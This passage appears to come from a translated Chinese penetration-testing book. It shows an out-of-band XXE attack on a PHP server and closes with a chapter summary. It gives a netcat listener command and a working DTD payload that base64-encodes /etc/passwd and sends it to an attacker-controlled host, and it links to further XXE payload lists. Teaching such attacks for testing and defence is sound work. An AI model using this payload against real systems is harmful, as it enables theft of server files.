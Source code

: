 * 你刚刚创建的 DTD 文件指示易受攻击的服务器读取 `/etc/ passwd` 然后尝试使用我们的敏感数据向我们的攻击者机器发出 Web 请求。为了确保我们收到响应，我们需要启动 Web 服务器来托管 DTD 文件并设置 NetCat 监听器
    * nc -l -p 8888

* 你将遇到“检测到实体引用循环”类型的错误,具体的报错内容大概是：“Detected an entity reference loop in
\<b>/var/www/html/xxe.php</b> on line \<b>20"。在进行 XXE 攻击时，通常会遇到解析器错误。很多时候，XXE 解析器仅仅允许某些字符，因此读取带有特殊字符的文件会报错。我们可以做些什么来解决这个问题？在使用 PHP 的情况下，我们可以使用 PHP 输入和输出流（ http://php.net/manual/en/wrappers.php.php ）来读取本地文件，并使用 `php://filter/read=convert.base64-encode` 对它们进行 base64 编码。让我们重启我们的 NetCat 监听器并更改我们的 payload.dtd 文件以使用此功能：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```

![](img/3-45.png)

一旦我们重放我们新修改的请求，我们现在就可以看到我们的受害者服务器首先获取并运行了 payload.dtd 文件，然后监听8888端口的 NetCat 处理程序发出二次 Web 请求。当然，GET 请求将采用 base64编码并且我们也将必须对请求进行解码。

更多 XXE payload：
* https://gist.github.com/staaldraad/01415b990939494879b4 
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt
 
## 本章总结
虽然这只是你可能遇到的所有不同网络攻击的一小部分，但我希望这些案例能打开你的视野，关于更现代的框架（Node.js）是如何引入旧的和新的攻击。许多常见的应用程序漏洞扫描器往往会错过很多这些更复杂的漏洞，因为它们是基于特定的语言或框架的。我想提出的要点是，为了进行充分的攻击活动，你需要真正理解语言和框架。
